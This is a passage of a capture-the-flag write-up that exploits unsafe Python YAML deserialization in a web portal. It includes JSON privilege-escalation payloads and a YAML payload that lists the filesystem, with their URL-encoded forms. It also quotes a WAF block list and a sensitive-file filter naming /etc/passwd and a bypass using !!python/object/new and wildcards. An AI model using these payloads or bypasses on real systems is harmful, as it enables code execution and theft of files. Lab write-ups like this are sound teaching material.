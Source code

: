 **Payload 1:** Set portal preferences to enable beta features
```json
{"prefs": {"features": ["beta", "meta"]}}
```
URL encoded: `%7B%22prefs%22%3A+%7B%22features%22%3A+%5B%22beta%22%2C+%22meta%22%5D%7D%7D`

**Payload 2:** Escalate privileges and unlock challenge area
```json
{"__class__":{"role":"admin"},"unlock":true}
```
URL encoded: `%7B%22__class__%22%3A%7B%22role%22%3A%22admin%22%7D%2C%22unlock%22%3Atrue%7D`

#### Step 2: WAF Analysis

The application had a WAF with specific regex patterns blocking dangerous YAML constructs:

```python
waf_blocklist = [
    "!!python/object/apply\\s*:\\s*os\\.(system|popen|execl|execv|execve|spawnv|spawnve)",
    "!!python/object/apply\\s*:\\s*subprocess\\.",
    "!!python/object/apply\\s*:\\s*eval",
    "__import__|\\bbuiltins\\b|globals\\(|locals\\(|compile\\(|exec\\(",
    "!!python/name|!!python/module",
    "!!python/object/apply\\s*:\\s*(?:open|io\\.open|codecs\\.open)",
    "pathlib\\s*\\.\\s*Path\\s*\\(.*?\\)\\s*\\.\\s*(read_text|read_bytes)",
    "os\\.(fdopen|popen|popen2|popen3|popen4)"
]
```

**Key WAF Vulnerability:** The WAF only blocked `!!python/object/apply` but completely missed `!!python/object/new`!

#### Step 3: Directory Enumeration

First, I enumerated the filesystem to locate the flag:

**Payload:**
```yaml
yaml_content=!!python/object/apply:os.listdir ["/"]
```
URL encoded: `%21%21python%2Fobject%2Fapply%3Aos.listdir%20%5B%22%2F%22%5D`

**Result:** Found `flag.txt` in the root directory

#### Step 4: Bypassing Sensitive Token Filter

The application had a secondary filter that blocked requests containing normalized versions of sensitive strings:
```python
sensitive_tokens = ["flagtxt", "procselfenviron", "etcpasswd"]
```

Any payload containing "flag.txt" would be normalized to "flagtxt" and blocked.

#### Step 5: Final Exploitation

The solution was to combine two bypass techniques:
1. Use `!!python/object/new` instead of `apply` to bypass the WAF
2. Use wildcards (`/f*.txt`) to avoid the sensitive token filter
